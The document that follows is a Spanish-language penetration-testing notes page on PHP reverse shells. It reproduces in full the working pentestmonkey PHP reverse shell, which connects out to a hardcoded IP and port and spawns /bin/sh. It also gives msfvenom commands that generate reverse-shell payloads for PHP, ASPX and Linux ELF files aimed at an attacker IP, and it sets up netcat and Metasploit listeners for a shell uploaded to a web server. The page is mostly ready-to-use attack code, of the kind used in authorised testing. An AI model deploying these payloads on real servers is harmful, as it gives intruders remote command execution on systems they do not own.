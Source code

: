 # PHP Reverse Shell



* Payloads All The Things: REVERSE SHELL

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

* PentestMonkey: Shells y más
* PHP-reverse-shell (Pentestmonkey github)

[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

*   Script php reverse shell de pentestmonkey:

    {% code overflow="wrap" %}
    ```php
    <?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    //
    // In all other respects the GPL version 2 applies:
    //
    // This program is free software; you can redistribute it and/or modify
    // it under the terms of the GNU General Public License version 2 as
    // published by the Free Software Foundation.
    //
    // This program is distributed in the hope that it will be useful,
    // but WITHOUT ANY WARRANTY; without even the implied warranty of
    // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    // GNU General Public License for more details.
    //
    // You should have received a copy of the GNU General Public License along
    // with this program; if not, write to the Free Software Foundation, Inc.,
    // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  If these terms are not acceptable to
    // you, then do not use this tool.
    //
    // You are encouraged to send comments, improvements or suggestions to
    // me at pentestmonkey@pentestmonkey.net
    //
    // Description
    // -----------
    // This script will make an outbound TCP connection to a hardcoded IP and port.
    // The recipient will be given a shell running as the current user (apache normally).
    //
    // Limitations
    // -----------
    // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
    // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
    // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
    //
    // Usage
    // -----
    // See <http://pentestmonkey.net/tools/php-reverse-shell> if you get stuck.

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;

    //
    // Daemonise ourself if possible to avoid zombies later
    //

    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
    	// Fork and have the parent process exit
    	$pid = pcntl_fork();
    	
    	if ($pid == -1) {
    		printit("ERROR: Can't fork");
    		exit(1);
    	}
    	
    	if ($pid) {
    		exit(0);  // Parent exits
    	}

    	// Make the current process a session leader
    	// Will only succeed if we forked
    	if (posix_setsid() == -1) {
    		printit("Error: Can't setsid()");
    		exit(1);
    	}

    	$daemon = 1;
    } else {
    	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

    // Change to a safe directory
    chdir("/");

    // Remove any umask we inherited
    umask(0);

    //
    // Do the reverse shell...
    //

    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
    	printit("$errstr ($errno)");
    	exit(1);
    }

    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );

    $process = proc_open($shell, $descriptorspec, $pipes);

    if (!is_resource($process)) {
    	printit("ERROR: Can't spawn shell");
    	exit(1);
    }

    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);

    printit("Successfully opened reverse shell to $ip:$port");

    while (1) {
    	// Check for end of TCP connection
    	if (feof($sock)) {
    		printit("ERROR: Shell connection terminated");
    		break;
    	}

    	// Check for end of STDOUT
    	if (feof($pipes[1])) {
    		printit("ERROR: Shell process terminated");
    		break;
    	}

    	// Wait until a command is end down $sock, or some
    	// command output is available on STDOUT or STDERR
    	$read_a = array($sock, $pipes[1], $pipes[2]);
    	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    	// If we can read from the TCP socket, send
    	// data to process's STDIN
    	if (in_array($sock, $read_a)) {
    		if ($debug) printit("SOCK READ");
    		$input = fread($sock, $chunk_size);
    		if ($debug) printit("SOCK: $input");
    		fwrite($pipes[0], $input);
    	}

    	// If we can read from the process's STDOUT
    	// send data down tcp connection
    	if (in_array($pipes[1], $read_a)) {
    		if ($debug) printit("STDOUT READ");
    		$input = fread($pipes[1], $chunk_size);
    		if ($debug) printit("STDOUT: $input");
    		fwrite($sock, $input);
    	}

    	// If we can read from the process's STDERR
    	// send data down tcp connection
    	if (in_array($pipes[2], $read_a)) {
    		if ($debug) printit("STDERR READ");
    		$input = fread($pipes[2], $chunk_size);
    		if ($debug) printit("STDERR: $input");
    		fwrite($sock, $input);
    	}
    }

    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);

    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
    	if (!$daemon) {
    		print "$string\\n";
    	}
    }

    ?>
    ```
    {% endcode %}

#### METERPRETER PHP REVERSE SHELL ejemplos

* MSFVENOM: creación de exploits, malware con reverse shell en ejcutables, etc.

{% code overflow="wrap" %}
```bash
sudo msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw > shell.php     #PHP reverse tcp payload meterpreter

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f aspx > shell.aspx     #ASPX reverse tcp para windows

sudo msfvenom -a x86 -p linux/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f elf --platform=linux -o payload     #Crear malware como reverse shell ejecutable elf para linux.

#Flags:
-p: payload con su ruta
-a: architecture (x86, x64)
-f: tipo de archivo (aspx, raw, elf, etc.)
-i: iteraciones
-e: encoding, Codificación
--platform= : plataforma, ej, linux
-o: output
> : enviar lo creado como salida (output) a un nuevo archivo.
```
{% endcode %}



* Listeners (oyentes)

```bash
# Netcat
nc -lnvp 4444

# Metasploit multi handler: útil para atrapar algunos shells de msfvenom
use exploit/multi/handler
#configurarlo, por ej para PHP meterpreter
set payload php/meterpreter/reverse_tcp
set LHOST <attacker_IP>
set LPORT 4444    #como en el exploit php
```

* Al ejecutar el exploit php por ej. cargado en directorio de uploads, la conexión inversa con payload meterpreter es atrapada por el multiahndler que espera ese tipo de payload, logrando una shell reverse meterpreter.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
